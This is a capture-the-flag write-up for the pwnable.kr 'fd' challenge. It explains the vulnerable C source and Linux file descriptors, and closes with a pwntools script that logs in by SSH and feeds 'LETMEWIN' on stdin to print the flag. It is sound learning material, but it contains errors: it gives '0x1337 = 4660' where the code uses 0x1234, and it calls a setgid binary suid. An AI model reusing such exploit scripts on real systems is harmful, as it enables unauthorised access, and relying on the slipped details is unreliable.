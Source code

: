 # fd Writeup

## Challenge infos

```text
Mommy! what is a file descriptor in Linux?

* try to play the wargame your self but if you are ABSOLUTE beginner, follow this tutorial link:
https://youtu.be/971eZhMHQQw

ssh fd@pwnable.kr -p2222 (pw:guest)
```

## Server content

```text
--- ls -la ---
total 48
drwxr-x---   5 root fd      4096 Apr  1 14:50 .
drwxr-xr-x 118 root root    4096 Jun  1 12:05 ..
d---------   2 root root    4096 Jun 12  2014 .bash_history
-r-xr-sr-x   1 root fd_pwn 15148 Mar 26 13:17 fd
-rw-r--r--   1 root root     452 Mar 26 13:17 fd.c
-r--r-----   1 root fd_pwn    50 Apr  1 06:06 flag
----------   1 root root     128 Oct 26  2016 .gdb_history
dr-xr-xr-x   2 root root    4096 Dec 19  2016 .irssi
drwxr-xr-x   2 root root    4096 Oct 23  2016 .pwntools-cache
--- id ---
uid=1002(fd) gid=1002(fd) groups=1002(fd)
--- cat file---
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                setregid(getegid(), getegid());
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}

--- file binary ---
fd: setgid ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=156ca9c174df927ecd7833a27d18d0dd5e413656, for GNU/Linux 3.2.0, not stripped
```
## Exploitation objective
* The ssh user is ```fd```, group ```fd```
* The ```flag``` file is readable only by the user ```fd_pwn``` or the group ```root```
* The ```fd``` binary is a 32bit ELF executable by the ```fd_pwn``` user or members of the ```fd``` group and is ```suid``` meaning that it executes with the rights of its user even if called by a member of its group

This means that if we pwn the ```fd``` executable we can gain read access to the ```flag``` file via suid user ```fd_pwn```.

The ```fd``` executable is certainly compiled from the ```fd.c``` source code, let's have a look.

## C code analysis
```c
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
```

* We need to call the program with a number as first argument : ```./fd [n]```


```c
        int fd = atoi( argv[1] ) - 0x1234;
```

* The ```[n]``` argument is used to define the ```fd``` variabl by substracting ```0x1234``` (hexadecimal number 4660) from it

```c
        len = read(fd, buf, 32);
```

* The ```fd``` variable is used as the file descriptor to read a string to the buffer ```buf```

```c
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
```

* If the content of the buffer ```buf``` is equal to ```"LETMEWIN\n"``` (```\n``` denotes newline character) the executable calls ```system()``` to output the content of ```flag``` with ```cat```, this is our target

## File descriptor understanding

The ```fd``` variable is a file descriptor, an unique value linking to an open stream for reading or writing

There is 3 defined files descriptors when the program is started and we can define new ones with a call to ```open()```

The 3 already open ones are :
* ```0``` : refers to ```stdin```, the standard input stream, read only
* ```1``` : refers to ```stdout```, the standard output stream, write only
* ```2``` : refers to ```stderr```, the standard error stream, write only

## Exploitation

* There is no call to ```open()``` in the program but since we can manipulate ```fd``` through ```[n]``` we can set it to ```0``` in order to read from ```stdin```

* If we set ```[n]``` to ```0x1337``` = ```4660``` we can call the program with ```./fd 4660```, forcing it to read the buffer frmo ```stdin```

* We the input ```LETMEWIN``` and press ```Enter``` to send a newline character ```\n```

* The check is then passed and the ```flag``` is outputed

## Exploitation script

```python
#!/usr/bin/env python
from pwn import *
```
* Use [pwntools](https://github.com/Gallopsled/pwntools) for automatic exploitation
```python
arg = 0x1234
```
* Set the ```arg``` variable to ```0x1234``` (Python can understand hexadecimal values by starting a number with ```0x``` and converts them to decimal)
```python
server = ssh('fd', 'pwnable.kr', 2222, 'guest')
io = server.process(['./fd', str(arg)])
io.sendline('LETMEWIN')

result = io.recvall()

io.close()
server.close()

print(result)
```
* Send the ```LETMEWIN``` line with a newline character (with ```sendline()```)
* Print the ```result``` which is the ```flag```